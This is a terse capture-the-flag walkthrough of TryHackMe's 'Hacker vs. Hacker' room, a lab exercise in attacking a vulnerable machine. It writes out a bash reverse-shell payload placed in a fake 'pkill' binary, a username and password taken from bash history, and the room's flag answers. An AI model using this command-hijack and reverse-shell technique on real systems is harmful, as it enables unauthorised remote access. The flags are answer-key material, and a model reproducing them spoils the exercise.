 # Hacker vs. Hacker
  
> (\*) Someone has compromised this server already! Can you get in and evade their countermeasures?

---

```bash
export IP=10.10.172.120
```

```bash
echo "bash -c 'bash -i >& /dev/tcp/UR_IP/UR_port 0>&1'" > bin/pkill ; chmod  +x bin/pkill
```
rm ./bin/pkill

* credentiels from `/home/lachlan/.bash_histoy`

```
lachlan:thisistheway123
```



---

## Task 1: Get on and boot them out!

* The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

---

* Answer the questions below
* What is the user.txt flag?

```
thm{af7e46b68081d4025c5ce10851430617}
```

* What is the proof.txt flag?

```
thm{7b708e5224f666d3562647816ee2a1d4}
```